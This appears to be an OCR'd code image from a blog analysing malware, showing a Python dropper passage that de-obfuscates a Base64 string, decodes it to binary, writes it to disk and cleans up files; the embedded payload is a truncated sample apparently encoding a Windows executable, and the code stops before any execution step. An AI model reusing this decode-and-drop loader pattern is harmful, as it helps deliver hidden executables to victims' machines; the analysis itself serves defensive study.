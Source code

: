 ```python
def replace_patterns(encoded_str):
    """Replace specific patterns in the Base64 string."""
    for pattern, replacement in PATTERN_REPLACEMENTS.items():
        encoded_str = encoded_str.replace(pattern, replacement)
    return encoded_str

def decode_base64(encoded_str):
    """Decode the Base64 string into binary data."""
    try:
        # Ensure the string is properly padded for Base64 decoding
        padded_str = encoded_str + '=' * (-len(encoded_str) % 4)
        return base64.b64decode(padded_str)
    except (base64.binascii.Error, ValueError) as e:
        log_error(f"Base64 decoding failed: {e}")
        return None

def save_binary_to_file(data, file_path):
    """Save binary data to a file."""
    try:
        with open(file_path, 'wb') as file:
            file.write(data)
        return True
    except IOError as e:
        log_error(f"Failed to save binary data to file: {file_path} - {e}")
        return False

def get_current_directory():
    """Get the path to the current working directory."""
    return os.getcwd()

def clean_up_file(file_path):
    """Delete a file if it exists."""
    if os.path.exists(file_path):
        try:
            os.remove(file_path)
        except OSError as e:
            log_error(f"Failed to delete file: {file_path} - {e}")

def log_error(message):
    """Log error messages to a file."""
    try:
        with open("error.log", "a") as log_file:
            log_file.write(f"{message}\n")
    except IOError as e:
        print(f"Failed to write to log file: {e}")

def main():
    # The malicious code here, please note that the actual Base64 is very lengthy and for the sake of the blog, a sample is used here.
    encoded_base64_string = "));;;qQ@@@@M@@@@@@@@E@@@@@@@@//8@@@@Lg@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@@@@@@@4fug4@@t@@nNIbg...))M0h;;;Ghpcy...wcm9ncmFtIGNhbm5vdC...iZS...ydW4gaW4gRE9))IG1vZGUuDQ0K&&&@@@@@@@@@@@@@@@@@@...QRQ@@@@ZIYD@@KPK6GY@@@@@@@@@@@@@@@@@@@@P@@@@Lg@@L@@j@@@@@@&&&oH@@@@D4...w@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@@@@@@@E@@@@@@@@@@@@@@@@@@g@@@@@@@@@@g@@@@...@@@@@@@@@@@@@@@@@@@@E@@@@@@@@@@@@@@@@@@@@...@@C@@@@@@@@g@@@@@@@@@@@@@@@@I@@YIU@@@@E@@@@@@@@@@@@@@@@...@@@@@@@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@I@@@@@@@@@@@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Dg...wCoXQ@@@@@@@@@@@@@@@@@@@@@@@@...om@@g@@SFE@@@@@@@@@@@@@@@@@@@@@@@@@@YHEH@@...w@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@gg@@@@...I@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@udG;;;4d@@@@@@@@ECY...w@@@@I@@@@@@@@&&&oH@@@@@@C@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@...gLn&&&"

    if not encoded_base64_string:
        print("Base64 string is empty. Exiting.")
```